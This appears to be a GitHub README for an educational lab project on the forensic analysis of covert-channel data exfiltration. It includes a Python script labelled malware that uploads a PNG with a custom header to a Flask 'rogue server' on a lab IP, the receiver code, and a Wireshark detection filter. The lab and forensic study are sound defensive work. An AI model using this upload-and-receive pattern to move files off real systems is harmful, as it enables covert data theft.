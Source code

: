 # Forensic Analysis of Data Exfiltration via Covert Channels

## Overview
This project simulates a covert data exfiltration scenario using:
- Python-based ethical malware
- Steganography in `.png` images
- HTTP POST transmissions with custom headers
- A Flask-based rogue server

The goal is to model real-world threat tactics, demonstrate how covert channels evade detection, and walk through the full forensic analysis process.

---

## Technologies Used
- Python 3.12
- Flask (rogue server)
- Wireshark (traffic analysis)
- VirtualBox VMs (Windows attacker, Linux receiver)

---

## Key Components

### Malware Behavior

The simulated malware script transmits an image file with embedded data using a custom HTTP header:

```python
import requests

url = "http://192.168.1.100:5000/upload"  # Replace with your Flask server IP

response = requests.post(
    url,
    files={'file': open('fake_image.png', 'rb')},
    headers={'X-Data': 'Exfiltrated'}
)

print(response.status_code)
```

### Flask Rogue Server

A basic Flask app listens for uploads and saves received images while logging the custom header:

```python
from flask import Flask, request
import os

app = Flask(__name__)
UPLOAD_FOLDER = 'uploads'
os.makedirs(UPLOAD_FOLDER, exist_ok=True)

@app.route('/upload', methods=['POST'])
def upload_file():
    file = request.files['file']
    header = request.headers.get('X-Data')
    print(f"Received X-Data: {header}")
    file.save(os.path.join(UPLOAD_FOLDER, file.filename))
    return "OK", 200
```

---

### Network Detection
- Wireshark used to trace POST traffic
- Custom header identified: `X-Data: Exfiltrated`
- Traffic filtered with:
  ```
  http.request.method == "POST"
  ```

---

### Forensic Workflow
- Endpoint log inspection
- Server-side file recovery
- Header analysis and timeline correlation

---

## Ethical Safeguards
- Non-persistent, sandboxed malware
- Synthetic data only
- Isolated virtual lab setup
- All tools used under legal licenses

---

## Learning Outcomes
- Covert channel construction and detection
- Steganography in network forensics
- Log correlation across endpoints and networks
- Real-world SOC and law enforcement parallels

---

## Full Write-up
See the complete analysis and methodology:  
[Forensic_Data_Exfiltration_Covert_Channels_Grant_Pierce.pdf](./Forensic_Data_Exfiltration_Covert_Channels_Grant_Pierce.pdf)

---

## Sample Files
- `malware.py` – Exfiltration script
- `server.py` – Flask receiver
- `fake_image.png` – Sample test file

---

## License
MIT License
